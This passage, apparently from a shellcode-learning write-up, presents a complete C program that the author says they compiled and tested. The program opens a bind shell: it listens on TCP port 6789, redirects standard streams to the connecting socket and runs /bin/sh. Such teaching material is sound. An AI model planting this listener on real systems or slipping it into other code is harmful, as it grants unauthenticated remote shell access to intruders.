 ```c
/* http://man7.org/linux/man-pages/man2/close.2.html */
int close(int fd);
```

I wrote the following C program that creates this bind shell and compiled and ran it to confirm it functions properly.

```c
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

#define NULL 0

int socket(int domain, int type, int protocol);
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
int listen(int sockfd, int backlog);
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
int dup2(int oldfd, int newfd);
int close(int fd);
int execve(const char *filename, char *const argv[], char *const envp[]);

int main() {
    int port = 6789;

    /* this creates a new socket but it has no address assigned to it yet */
    int sockfd = socket(AF_INET /* 2 */, SOCK_STREAM /* 1 */, 0);

    /* create sockaddr structure for use with bind function */
    struct sockaddr_in hostaddr;
    hostaddr.sin_family = AF_INET;
    hostaddr.sin_port = htons(port);
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);

    /* bind socket to ip/port */
    bind(sockfd, (struct sockaddr*)&hostaddr, sizeof(struct sockaddr_in));

    /* listen for connections */
    listen(sockfd, 1);

    /* accept connection */
    int clientfd = accept(sockfd, NULL, NULL);

    /* duplicate file descriptors for STDIN/STDOUT/STDERR */
    for (int n = 0; n <= 2; ++n) {
        dup2(clientfd, n);
    }

    /* execute /bin/sh */
    execve("/bin/sh", NULL, NULL);

    close(sockfd);

    return 0;
}
```
